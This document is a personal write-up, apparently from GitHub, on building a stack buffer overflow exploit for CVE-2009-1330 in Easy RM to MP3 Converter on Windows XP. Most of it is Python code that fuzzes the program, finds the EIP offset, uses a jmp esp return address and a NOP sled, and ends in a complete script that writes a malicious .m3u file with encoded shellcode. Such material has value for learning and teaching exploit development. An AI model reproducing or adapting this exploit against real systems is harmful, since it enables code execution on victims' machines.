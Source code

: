 # Easy RM to MP3 Converter 2.7.3.700 (.m3u) File WinXP Sp2 Buffer Overflow Exploit

-   cve details: [CVE-2009-1330](https://www.cvedetails.com/cve/CVE-2009-1330/)
-   Target: Easy RM to MP3 Converter 2.7.3.700
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

I opened target program and checked its. I understood the program takes input from user in file types like: ra, m3u, pl, ... . For load file use Load button. For check program vulnerability I made a python file :

```source-shell
    exploit='A'*5000
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close() 
```
    
After load exploit.m3u, program handle its:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/1.jpg)

I add more "A" and again check it:

```source-shell
    exploit='A'*5000
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```

Program closed witout show error and .... . I understood target maybe vulnerability.I started develop a exploit for it. I want show calce.

I run Immunity Debugger and attached target to debugger. I need find EIP and for it, I need find how many "A" input to target.I used Mona for create pattern :

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/2.JPG)

Mona create pattern file in this path: Immunity Debugger path/pattern.txt . Open it and copy ASCII section to new file like exploit.m3u . Now I load this file to target that attached in Immunity. Target is closed,and now I go to Immunity and copy EIP and with Mona command (!mona po 78533778) , I find exactlly location.

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/3.JPG)

Now I know number "A" (14752) and for check it , I change my exploit to below. If EIP show 42424242 ,location is true :

```source-shell
    exploit='A'*14752 + "B"*4
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```

After load, I show program handle it and the location found by Mona was incorrect. 

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/4.JPG)

I using manully approch, change number of "A" to find location. afte check some number , I find 26064. So my exploit changed to :

```source-shell
    exploit='A'*26064 + "B"*4
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/5.JPG)

Now I need added my shellcode and find my shellcode's location and pass it to EIP. I change my exploit to this:

```source-shell
    exploit='A'*26064 + "B"*4 + "C"*100
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/6.JPG)

I load file in target and check it in Immunity. I see my shellcode load in Stack and I only need find a command point to stack like "jmp esp" ,also I see a jump occur and 4"C" does not run, so if I add shellcode to this,My shellcode not execute. For solved first problem , I load program in Immunity and RightClick>Search for > All commands in All modules and so type jmp esp and select a result :

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/7.JPG)

I select this address (7c9d30d7). I add this address (reverse) to exploit and so add shellcode :


```source-shell
    exploit= "A" * 26064 + "\xD7\x30\x9D\x7C" +(
    "\x31\xc9\xda\xd4\xb1\x33\xbd\xec\x71\x94\xde\xd9\x74\x24\xf4"
"\x5f\x31\x6f\x15\x03\x6f\x15\x83\x2b\x75\x76\x2b\x4f\x9e\xff"
"\xd4\xaf\x5f\x60\x5c\x4a\x6e\xb2\x3a\x1f\xc3\x02\x48\x4d\xe8"
"\xe9\x1c\x65\x7b\x9f\x88\x8a\xcc\x2a\xef\xa5\xcd\x9a\x2f\x69"
"\x0d\xbc\xd3\x73\x42\x1e\xed\xbc\x97\x5f\x2a\xa0\x58\x0d\xe3"
"\xaf\xcb\xa2\x80\xed\xd7\xc3\x46\x7a\x67\xbc\xe3\xbc\x1c\x76"
"\xed\xec\x8d\x0d\xa5\x14\xa5\x4a\x16\x25\x6a\x89\x6a\x6c\x07"
"\x7a\x18\x6f\xc1\xb2\xe1\x5e\x2d\x18\xdc\x6f\xa0\x60\x18\x57"
"\x5b\x17\x52\xa4\xe6\x20\xa1\xd7\x3c\xa4\x34\x7f\xb6\x1e\x9d"
"\x7e\x1b\xf8\x56\x8c\xd0\x8e\x31\x90\xe7\x43\x4a\xac\x6c\x62"
"\x9d\x25\x36\x41\x39\x6e\xec\xe8\x18\xca\x43\x14\x7a\xb2\x3c"
"\xb0\xf0\x50\x28\xc2\x5a\x3e\xaf\x46\xe1\x07\xaf\x58\xea\x27"
"\xd8\x69\x61\xa8\x9f\x75\xa0\x8d\x40\x94\x61\xfb\xe8\x01\xe0"
"\x46\x75\xb2\xde\x84\x80\x31\xeb\x74\x77\x29\x9e\x71\x33\xed"
"\x72\x0b\x2c\x98\x74\xb8\x4d\x89\x16\x5f\xde\x51\xf7\xfa\x66"
"\xf3\x07")
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```

And finally for solved second problem,I use NOP sed. my exploit in final mode:

```source-shell
exploit= "A" * 26064 + "\xD7\x30\x9D\x7C"+ "\x90"*8 +(
    "\x31\xc9\xda\xd4\xb1\x33\xbd\xec\x71\x94\xde\xd9\x74\x24\xf4"
    "\x5f\x31\x6f\x15\x03\x6f\x15\x83\x2b\x75\x76\x2b\x4f\x9e\xff"
    "\xd4\xaf\x5f\x60\x5c\x4a\x6e\xb2\x3a\x1f\xc3\x02\x48\x4d\xe8"
    "\xe9\x1c\x65\x7b\x9f\x88\x8a\xcc\x2a\xef\xa5\xcd\x9a\x2f\x69"
    "\x0d\xbc\xd3\x73\x42\x1e\xed\xbc\x97\x5f\x2a\xa0\x58\x0d\xe3"
    "\xaf\xcb\xa2\x80\xed\xd7\xc3\x46\x7a\x67\xbc\xe3\xbc\x1c\x76"
    "\xed\xec\x8d\x0d\xa5\x14\xa5\x4a\x16\x25\x6a\x89\x6a\x6c\x07"
    "\x7a\x18\x6f\xc1\xb2\xe1\x5e\x2d\x18\xdc\x6f\xa0\x60\x18\x57"
    "\x5b\x17\x52\xa4\xe6\x20\xa1\xd7\x3c\xa4\x34\x7f\xb6\x1e\x9d"
    "\x7e\x1b\xf8\x56\x8c\xd0\x8e\x31\x90\xe7\x43\x4a\xac\x6c\x62"
    "\x9d\x25\x36\x41\x39\x6e\xec\xe8\x18\xca\x43\x14\x7a\xb2\x3c"
    "\xb0\xf0\x50\x28\xc2\x5a\x3e\xaf\x46\xe1\x07\xaf\x58\xea\x27"
    "\xd8\x69\x61\xa8\x9f\x75\xa0\x8d\x40\x94\x61\xfb\xe8\x01\xe0"
    "\x46\x75\xb2\xde\x84\x80\x31\xeb\x74\x77\x29\x9e\x71\x33\xed"
    "\x72\x0b\x2c\x98\x74\xb8\x4d\x89\x16\x5f\xde\x51\xf7\xfa\x66"
    "\xf3\x07")
    
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```


![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/8.JPG)



